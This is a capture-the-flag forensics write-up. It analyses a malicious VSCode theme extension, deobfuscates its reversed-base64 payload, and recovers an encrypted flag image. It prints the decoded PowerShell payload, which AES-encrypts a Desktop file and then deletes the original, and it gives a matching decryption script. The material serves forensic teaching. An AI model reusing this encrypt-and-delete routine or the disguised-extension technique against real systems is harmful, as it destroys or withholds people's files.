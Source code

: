 ```yaml
---
title: bitsCTF - Forensics - Virus Camp 2
date: 2025-02-12 12:00:00 +0100
categories: [CTFs, bitsCTF]
tags: [ctfs, bitsCTF, forensics]
description: A light theme with dark intentions.
author: <author_id>

image:
  path: /assets/img/bitsCTF/bitsCTF.jpg
---
```


## Challenge description 

> Can you now get the contents of the flag as well?
>
> *Find the flag.*
{: .prompt-info }

**Flag : BITSCTF{hOpe_yOu_enjOyed_th1s_145e3f1a}**

## Ressources

For this challenge, we will be using the same `.ad1` disk image from the first [Virus Camp](https://emree-1.github.io/posts/bitskrieg-virus-camp1) challenge.

## Tools 

To examine the `.ad1` disk image, we will be using `FTK Imager`. However, the key tool we will need for this challenge is a good understanding of `PowerShell`.

## Resolution

### Initial Analysis 

If you recall from the [Virus Camp 1](https://emree-1.github.io/posts/bitskrieg-virus-camp1) challenge, we discovered a flag hidden in a comment within a JavaScript file named `extension.js`. Alice had installed it, believing it was a light theme for VSCode, and we stopped our analysis there. We didn’t look into the functionality of the script in detail at the time, but now it’s time to dive deeper into its core logic!

Upon examining the `extension.js` file, we immediately notice a variable named `scriptContent`. This variable appears to contain base64-encoded data, but attempts to decode it fail. This suggests that some obfuscation techniques have been applied to make it harder to retrieve the original script.

### Deobfuscating `scriptContent`

Fortunately, the deobfuscation logic is present right after the encoded content. It appears that the characters in the string have been reversed—meaning the last character should be the first, the second-to-last should be the second, and so on. To retrieve the original content, we simply need to reverse the string and then decode it from Base64.

Here’s a small Python script to handle the deobfuscation:

```py
import base64

obfuscated = "K0QZjJ3bG1CIlxWaGRXdw5WakASblRX..."
reversed = obfuscated[::-1]
decoded = base64.b64decode(reversed)
result = decoded.decode()
print(result)
```

### Understanding the PowerShell Script

After reversing the string and decoding it from Base64, we obtain a PowerShell script. Let’s analyze its content to understand its purpose.

```powershell
$password = "MyS3cr3tP4ssw0rd"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32
$ivSize = 16

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

$inputFile = "C:\\Users\\vboxuser\\Desktop\\flag.png"
$outputFile = "C:\\Users\\vboxuser\\Desktop\\flag.enc"

$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$encryptor = $aes.CreateEncryptor()

$plainBytes = [System.IO.File]::ReadAllBytes($inputFile)

$outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($outStream, $encryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

$cryptoStream.Write($plainBytes, 0, $plainBytes.Length)
$cryptoStream.FlushFinalBlock()

$cryptoStream.Close()
$outStream.Close()

Remove-Item $inputFile -Force
```


Here’s a quick breakdown of what this script does:
1. **Setting up encryption parameters**:
   - *Password*: `"MyS3cr3tP4ssw0rd"`.
   - *Salt*: 0x01, `0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08`.
   - *Iterations*: `10,000`.
   - Uses `Rfc2898DeriveBytes()` to derive a key and IV based on the password, salt, and number of iterations.
2. **Configuring AES encryption**: uses AES with the derived key and IV. Operates in `CBC (Cipher Block Chaining)` mode with `PKCS7` padding to encrypt a file.
3. **Reading the input file**: reads `flag.png` from `C:\Users\vboxuser\Desktop\flag.png`.
4. **Encrypting the file**: encrypts the input file using AES.
5. **Saving the encrypted file**: stores the encrypted output as `C:\Users\vboxuser\Desktop\flag.enc`.

From this script, we can infer that Alice originally had a file named `flag.png` on her Desktop. However, when the malicious VSCode extension executed, it encrypted the file and replaced it with `flag.enc`, an encrypted version of the flag.

## Reversing the PowerShell Script

Fortunately for us, the password and salt used to derive the AES key and IV are hardcoded into the script, which allows us to reverse the encryption process.

To recover the original flag, we will:
1. Recreate the AES decryption object using the parameters found in the malicious script.
2. Decrypt flag.enc to restore `flag.png`.

Here’s a PowerShell script to do that:

```powershell
$password = "MyS3cr3tP4ssw0rd"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32   
$ivSize = 16 

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

$inputFile = "C:\\Users\\vboxuser\\Desktop\\flag.enc"
$outputFile = "C:\\Users\\vboxuser\\Desktop\\flag.png"

$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$decryptor = $aes.CreateDecryptor() # Decryptor instead of Encryptor

$inStream = New-Object System.IO.FileStream($inputFile, [System.IO.FileMode]::Open)
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($inStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Read)

$outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)

$buffer = New-Object byte[] 4096
while (($bytesRead = $cryptoStream.Read($buffer, 0, $buffer.Length)) -gt 0) {
    $outStream.Write($buffer, 0, $bytesRead)
}

$cryptoStream.Close()
$outStream.Close()
$inStream.Close()
```

After executing this script, we successfully recover the following image file, which contains the flag:

![...](assets/img/bitsCTF/forensics/virus-camp2/flag.png){: w="400"}

## Conclusion

I wasn’t able to complete the `Virus Camp challenges` during the event, but I kept working on them afterward, and I’m glad I finally managed to solve them. This challenge was a great opportunity to learn more about how malicious actors can infect a system—even through applications that most users would consider trustworthy.

Thank you for reading my write-up! See you in the next one! 

*emree1*
